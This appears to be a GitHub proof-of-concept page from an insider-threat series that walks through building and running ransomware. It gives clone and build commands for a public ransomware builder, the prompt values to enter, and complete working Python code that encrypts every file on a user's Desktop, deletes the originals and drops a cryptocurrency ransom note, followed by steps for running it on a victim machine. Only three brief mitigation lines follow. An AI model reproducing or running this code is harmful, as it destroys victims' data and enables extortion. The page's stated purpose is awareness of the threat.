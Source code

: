 # POC 5 - Ransomware to Destroy Files

## Description

Ransomware is a form of malware which is designed to encrypt files within a device and rendering files and systems to be useless. After the files are encrypted, threat actors usually demand a ransom in exchange for the key to decrypt the files within the system.

While some Organisations pay the threat actor for the key, it is not a guarantee that the threat actor will honour their words and provide the correct decryption key. This will result in Organisations losing their reputation, money and files from the attack. 

This attack aims to outline the threats posed to the organisation from a Ransomware attack. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of conducting a ransomware attack.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Clone the Ac0ddRansom repository

```py
git clone https://github.com/Hex1629/Ac0ddRansom.git
```

2. Navigate into the repository and execute the file

```
# Navigate into the repository
cd Ac0ddRansom

# Command to execute the script to create the payload
python ransomware_builder.py
```

![Creating a Ransomware Payload](/images/POC_5/Preparation/POC5_Ransomware_Builder.png)

3. Type in the following values at the various prompts and after the ransomware will be built

|Prompt|Value|
|--|--|
|Path|2|
|Path|Desktop|
|File Extension|[Input_File_Extension]|
|Encryption|Fernet|
|File Ransomware Delete|N|
|Note|NOTICE|
|Note_Data|N|
|Ransomware Name|[Input_Ransomware_Name]|
|Number|[Input_Ransomware_Number]|
|Crypto Type|[Input_Crypto_Type]|
|Address|[Input_Crypto_Currency_Wallet_Number]|
|Address Contact|[Input_Contact_Number]|
|Setup|2|
|Name|[Input_Your_Name]|
|Ransomware Files Name|[Input_Ransomware_Name]|

![Ransomware Build Status](/images/POC_5/Preparation/POC5_Ransomware_Build_Status.png)

4. The code should look something like this

```py
import os
import base64
from cryptography.fernet import Fernet

print('Ransomware Runing (No Remove!) ')

# Scan Files
def scan(path):
    allFiles = []
    for home, sub_files, file_list_s in os.walk(path):
        for name_files in file_list_s:
            if '[Input_File_Extension]' in name_files:
                continue
            allFiles.append(os.path.join(home, name_files))
    return allFiles

#Path Files
path_files = os.path.expanduser('~') + '/Desktop'

key_fernet_start = Fernet.generate_key()

#Encryption
num = 0
openFiles = scan(path_files)
for file_os in openFiles:
     #Read Files
     files = open(file_os, "rb")
     Data_Text = files.read()
     files.close()

     #Files Remove 
     os.remove(file_os)
     
     # Fernet
     fernet_start = Fernet(key_fernet_start)
     encodedBytes = fernet_start.encrypt(Data_Text)
     encodedStr = str(encodedBytes,"utf-8")
     
     # Write Files
     output = os.path.join(os.path.dirname(file_os), os.path.basename(file_os) + '[Input_File_Extension]')
     files2 = open(output, "w")
     files2.write(encodedStr)
     num += 1

# Note
num2 = 0
for dirName, subdirList, fileList in os.walk(path_files):
    OutputFile = os.path.join(os.path.join(dirName),f"NOTICE.txt")
    file = open(OutputFile,'w')
    file.write('''Attention maybe you have been infected by [Input_Ransomware_Name]!

All your file have been overwrite by Encryption Fernet

Don't worry, you can return all your files!

The only method of recovering files is to purchase decrypt tool and unique key for you.
This software will decrypt all your encrypted files.
To get this software you need write on our e-mail below

What guarantees do we give to you?
Its just a business. We absolutely do not care about you and your deals, except getting benefits.

Ransomware Make By [Input_Your_Name]

<--------- Rule
DONT try to change files by yourself, DONT use any third party software for restoring your data.
Do not rename encrypted files.

Contact us:[Input_Contact_Number]

Send $1 worth of [Input_Crypto_Type] to this Address:
[Input_Crypto_Currency_Wallet_Number]

Logs Ransomware --------------->
Personal Ransomware ID: emhevrHXUgxGDsadZThnCSDPFMT2M01ULP46Wv9n4hoGwHREOJZ2Jzi8z_86437627344
<--------------- Logs Ransomware
''')
    file.close()
    num2 += 1

print("Ransomware Done Runing!!!!!!")
```

5. Copy this file into an external storage for exploitation

### Exploitation

1. Install Python from the following site within the organisations system

```
https://www.python.org/downloads/release/python-3100/
```

2. Run the installer as Administrator and add python to path

3. Copy the file over from the external storage device into the machine

![Ransomware file in system](/images/POC_5/Exploitation/POC5_Ransomware_in_Victim_Machine.png)

4. Open Command Prompt and execute the following command

```cmd
python [Input_Ransomware_Name]
```

![Executing Built Ransomware in Victims Machine](/images/POC_5/Exploitation/POC5_Executing_Ransomware_in_Victim_Machine.png)

5. Notice that the files within the directory stated is encrypted and the ransomware note appears

![Ransomware Note](/images/POC_5/Exploitation/POC5_Ransomware_Note.png)

## Possible Mitigations and Recommendations

1. Perform Backup Regularly and Restore Offline Backup
2. Crisis Management Plan
3. Update antivirus signature database

## References

[Ac0ddRansom](https://github.com/Hex1629/Ac0ddRansom)
[What is Ransomware](https://www.cisa.gov/stopransomware/resources)  
[Converting Python File to exe File](https://www.geeksforgeeks.org/convert-python-script-to-exe-file/)    

### Similar Repositories performing Ransomware
[Malware with Python](https://github.com/amiroooamiran/Malware-with-python)  
[MineHackingTools](https://github.com/MinegamesAdministrationTool-zz/MineHackingTools)

